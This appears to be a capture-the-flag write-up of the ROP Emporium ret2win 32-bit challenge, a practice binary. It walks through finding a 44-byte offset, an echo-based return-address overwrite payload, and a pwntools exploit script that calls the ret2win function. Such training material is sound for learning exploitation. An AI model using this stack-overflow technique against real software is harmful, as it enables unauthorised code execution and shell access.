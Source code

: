 ```yaml
---

title: ROP Emporium - ret2win - x86
date: '2024-07-21'
tags: ['pwn', 'ctf', 'Binary Exploitation', 'Ret2win','write-up']
draft: false
summary: Exploit a binary using ROP to call ret2win() and print the flag.

---
```


# Ret2win

A technique used to invoke an uninvoked function by binary exploitation using stack buffer overflow.

It is done when we have NX enabled on the code.

Let’s learn how we can exploit code using ret2win in C programming. We will explain this with the ROP Emporium challenge ret2win-32. Here is the binary file attached.

[ret2win32](https://prod-files-secure.s3.us-west-2.amazonaws.com/21a1fb05-e61b-4497-b1d6-bdf89d2923f4/72d25abf-6b03-49b9-ad9d-46f3ea534ac1/ret2win32.txt)

First check what file it is using `file` command.

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/image1.png)


Now check what protections are enabled on this binary. For ret2win, it is essential that NX is enabled.

```bash
checksec --file=ret2win32
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img2.png)

```bash
rabin2 -I ret2win32
#this will provide binary info
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img3.png)

```bash
rabin2 -i ret2win
# this will list all the imported functions and libraries
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img4.png)

```bash
rabin2 -qs ret2win | grep -ve imp -e ' 0 '
# this will give us the important functions of the binary
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img5.png)

```bash
rabin2 -z ret2win32
# this will give the important strings of the binary
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img6.png)

I opened the program to analyze it in Ghidra and examined the functions like main and pwnme. Then, I opened gdb and disassembled pwnme to figure out how it works. I ran the binary and input a lot of numbers; it gave a segmentation fault and returned to the ret address.

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img7.png)

To check out the offset where it returns, i did this:

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img8.png)

It means the offset at which program breaks is 0x4c4c4c which is `L` . It means after `K` it is overwriting the return address, which i can check out like this;

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img9.png)

This time it gave the hex 0x5a5a5a, which in ASCII is Z. So, we have figured out our offset to overwrite the return address. What we need to do next is to overwrite this address with the win address (in this case, it is the ret2win function address) which will print out our flag (just in this case; otherwise, in a real scenario, it will get the root address).

Now let’s count the length after which overflow is possible.

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img10.png)

So after 44 bytes we’ll be able to overwrite our ret address.

44 → offset value

Now to get the address of ret2win function, i’ll run this command on my local machine terminal

```bash
nm ./ret2win
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img11.png)

Here we go, got the address. Now it’s time to overwrite it. I gave the address in little-endian format in the form of raw bytes. For this, I used the command:

```bash
echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK\x2c\x86\x04\x08'
```
![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img12.png)

After this result, we thought we did something wrong. Nah, the trick is we are getting the flag, but because our program is closing, so is the file. So for this, there’ll be a bit of modification in the command, and it goes as:

```bash
(echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK\x2c\x86\x04\x08' ; cat ) | ./ret2win32
```

Why so? Why did we give the command like that? The answer is when we run the cat command, it prints out the same output on the terminal. So in order to print the flag (just in this case; otherwise, to get the shell in a real scenario), we want to run the echo command, then execute cat before the binary program closes so that we can get the shell or flag or whatever the case is. And voila, here we go, got our flag.

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img13.png)

Now we know how to overwrite the address, let’s write the exploit of this address in any editor in our terminal.

```bash
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF('./ret2win32')
io = process()
payload = cyclic(44) + pack(elf.sym.ret2win)
io.sendline(payload)
io.interactive()

```

In this exploit, I created an elf variable in which I stored the binary of that file, making it accessible because of the pwn library. The payload first contains any garbage 44 bytes (as it was our offset value), then using the elf binary, we got the address of ret2win. pack is used to convert the address of the ret2win function to the 32-bit format (in this case, it is x86 or 32-bit ELF). Then we send the payload, and interactive is to make the binary interactive to display output on the terminal.

I ran this exploit.

```bash
./ret2win32_exploit.py
```

And here i got the result.

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img14.png)

That's all for today.
**Happy Hacking!!!**